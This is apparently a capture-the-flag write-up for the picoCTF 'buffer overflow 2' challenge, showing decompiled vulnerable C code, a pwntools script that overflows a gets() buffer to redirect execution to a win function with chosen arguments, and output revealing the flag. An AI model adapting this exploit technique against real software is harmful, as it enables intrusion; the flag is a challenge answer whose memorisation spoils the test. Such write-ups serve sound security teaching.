 # buffer overflow 2 Writeup

## Steps:
1. Open in ghidra and analyze
        - Notice functions called `vuln` and `win`
```
void vuln(void){
  char local_70 [104];
  
  gets(local_70);
  puts(local_70);
  return;
}


void win(int param_1,int param_2){
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x35010ff3) && (param_2 == -0xff20ff3)) {
      printf(local_50);
    }
    return;
  }
  printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
2. Plan: 
    a. overflow the buffer in vuln and overwrite the return address to be `win` (same as buffer overflow 2)
    b. overflow param_1 and param_2 so they equal `0xCAFEF00D` and `0xF00DF00D`

3. Overflow the parameters. Identify where they should be by running the code using `gdb.attach` and checking the stack when the cmp is called for param_1. There will need to be 4 more bytes of buffer in the payload before the new values.

4. Create the payload and send it to the process
```
from pwn import *

# p = process("./vuln")
p = remote("saturn.picoctf.net",57200)
# gdb.attach(p, gdbscript='b *main')

win = 0x08049296
param1 = 0xcafef00d
param2 = 0xf00df00d

payload = b"A" * 112
payload += p32(win)
payload += b"B" * 4
payload += p32(param1) + p32(param2)

p.sendline(payload)

# p.interactive()
print(p.recvall().decode('latin-1'))
```


## Solution:
```
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 57200: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to saturn.picoctf.net port 57200
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04ðþÊ8BBBB
picoCTF{argum3nt5_4_d4yZ_3c04eab0}
```
                                    
